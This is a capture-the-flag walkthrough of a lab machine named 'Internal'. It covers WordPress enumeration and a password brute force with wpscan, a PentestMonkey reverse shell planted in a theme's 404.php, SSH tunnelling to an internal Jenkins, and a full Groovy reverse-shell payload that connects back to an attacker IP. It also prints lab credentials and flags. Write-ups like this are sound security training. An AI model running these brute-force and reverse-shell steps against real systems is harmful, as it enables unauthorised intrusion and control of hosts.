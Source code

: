 > Internal | Security Misconfig

# Nmap

nmap -sC -sV -T4 -Pn -vvv -A internal.thm -oN nmap/initial

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

# FFUF

ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://internal.thm/FUZZ -mc 200,301 -c

```bash
blog                    [Status: 301, Size: 311, Words: 20, Lines: 10]
wordpress               [Status: 301, Size: 316, Words: 20, Lines: 10]
javascript              [Status: 301, Size: 317, Words: 20, Lines: 10]
phpmyadmin              [Status: 301, Size: 317, Words: 20, Lines: 10]
```

Looking at /blog we can see that it a wordpress site and we also have phpmyadmin. Let's start with blog!

wpscan --url http://internal.thm/blog -e -v -o wp_enumeration.tx

We found 3 important things here. Version, theme used and a username.

```bash
[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
[+] WordPress theme in use: twentyseventeen
| Location: http://internal.thm/blog/wp-content/themes/twentyseventeen/
| Last Updated: 2021-04-27T00:00:00.000Z
| Readme: http://internal.thm/blog/wp-content/themes/twentyseventeen/readme.txt
| [!] The version is out of date, the latest version is 2.7
| Style URL: http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507
[i] User(s) Identified:
[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://internal.thm/blog/index.php/wp-json/wp/v2/users/?per_page=100&page=1
```

Since we have username let's bruteforce with wpscan.

wpscan --url http://internal.thm/blog/wp-login.php -U admin -P /usr/share/wordlists/rockyou.txt -f cli

```bash
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```

Since we are in and we know that we have an outdated theme, let's use theme editor and edit 404.php content's to PentestMonkey Reverse shell. And accessing `http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php` we have a shell! 🧐

And since we have phpmyadmin let's try to search for passwords. Usually they are stored in `/etc/phpmyadmin/config-db.php`

```bash
$dbuser='phpmyadmin';
$dbpass='B2Ud4fEOZmVq';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';
```

Actually pretty much nothing in here. So as I was looking around in /opt folder we find a file.

# wp-save.txt 

```bash
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

We can SSH as `aubreanna`.


# user.txt

```
THM{int3rna1_fl4g_1}
```

We can also find another file.

# jenkins.txt 

```
Internal Jenkins service is running on 172.17.0.2:8080
```

Let's SSH tunnel and get it to our machine.

ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.104.55

Let's use OWASP ZAP to bruteforce password. I used OWASP ZAP's Fuzzer and kertbrutepass.txt as a password list with username as `admin`. And checking Response Header Size's difference we can see that the password is `spongebob`.

We can access `Script Console` by clicking on Manage Button. And we can execute any Groovy Script. Let's upload Groovy Reverse Shell from PayloadAllTheThings.

```java
String host="10.9.12.130";
int port=4242;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

And we are in as `jenkins`. In /opt dir, we can find a file.

# note.txt

```bash
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

And using the credentials given we can login as root using SSH.

# root.txt

```
THM{d0ck3r_d3str0y3r}
```